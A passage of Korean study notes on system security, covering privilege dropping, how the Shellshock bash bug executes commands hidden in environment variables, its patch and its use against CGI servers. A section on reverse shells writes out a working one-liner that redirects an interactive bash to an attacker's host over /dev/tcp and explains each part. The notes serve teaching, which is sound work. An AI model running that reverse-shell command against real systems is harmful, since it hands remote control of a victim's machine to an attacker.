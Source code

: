   - 특권있는 프로그램이 사용되지 않을 때 특권을 비활성화
  - 리눅스에서 seteuid나 setuid는 특권을 버리는데 사용할 수 있음

## Ch 4

### Shellshock

- 쉘 쇼크 취약점

  - 부모 프로세스는 환경 변수를 통해 자식 쉘 프로세스에 함수 정의를 전달할 수 있음
  - 자식의 bash가 환경 변수의 값을 함수로 변환할 때 변수에 포함된 명령을 실행하는 것이 아니라 구분을 분석해야 함
  - 그러나 구분 분석 논리의 버그로 인해 bash는 변수에 포함된 일부 명령을 실행
  - 쉘 변수를 정의하고 그 값으로 함수 정의를 넣은 후 환경 변수를 통해 자식 프로세스로 내보낼 때 자식 프로세스가 생성되면서 자식 쉘이 환경 변수를 구문 분석하게 되는데 구문 분석 중에 Shellshock 버그로 인해 bash가 중괄호 다음에 있는 명령을 실행하게 됨
  - variables.c(취약한 쉘 코드)에서 bash는 환경변수의 값이 () {로 시작하는지를 확인하여 일치하면 = 문자를 공백으로 대체하여 환경 변수 문자열을 함수 정의 문자열로 변환하는 부분이 있음
  - 그 다음 Bash는 parse_and_execute() 함수를 호출하여 함수 정의를 구문분석 하는데, 문자열이 함수 정의인 경우 구문 분석 함수는 구문 분석만 하고 실행하지 않지만, 문자열에 쉘 명령이 포함되어 있으면 구문 분석 함수가 이를 실행함

  - 데이터와 코드의 격리가 안됨

- 대책

  - export foo && declare -f foo 
    - 패치된 bash 쉘은 foo의 값을 문자열로 인식
  - export -f foo && declare -f foo 
    - 환경변수에 접두사와 접미사를 붙여서 이름에 올바른 접두사와 접미사가 있는 경우에만 함수로 변환될 수 있음

- 조건

  - Bash 쉘을 실행시켜야 하고
  - 환경 변수에 공격자의 의도가 담긴 코드를 넣어야 함

- Shellshock Attack on CGI

  - CGI: 공용 게이트웨이 인터페이스
  - 클라이언트의 요청을 서버가 받고 그 중 쉘 스크립트가 포함되어있다면 CGI에 요청
  - http 요청 --> 아파치 웹서버 --> fork() --> 자식 프로세스 --> exec() --> Bash Shell(CGI 스크립트 실행) --> Shellshock
  - 가정
    - 취약한 Bash 쉘을 사용하는 CGI
    - 클라이언트의 악성코드가 CGI로 들어간다면 
    - ==> ShellShock attack 가능
  - curl에 헤더로 Shellshock 코드 삽입

- 리버스 쉘

  - 리버스쉘은 반대로 공격자 측에서 서버를 열어서 희생자가 접속하도록 함
  - 공격자의 input이 서버 머신에서 처리되어 출력값을 다시 공격자의 머신에 띄워주는 것
  - /bin/bash -i >/dev/tcp/10.0.2.6/9090 0<&1 2>&1
    - /bin/bash -i > /dev/tcp~ : bash쉘을 대화형으로 실행한 후 bash 쉘의 출력 장치가 공격자의 포트 9090로 리디렉션
    - 0<&1은 표준 입력 장치로 표준 출력 장치를 사용하도록 시스템에 지시 --> TCP 연결 후엔 TCP 연결에서 입력을 받는다는 뜻
    - 2>&1은 표준 에러를 표준 출력으로 리디렉션

### System Call Execution
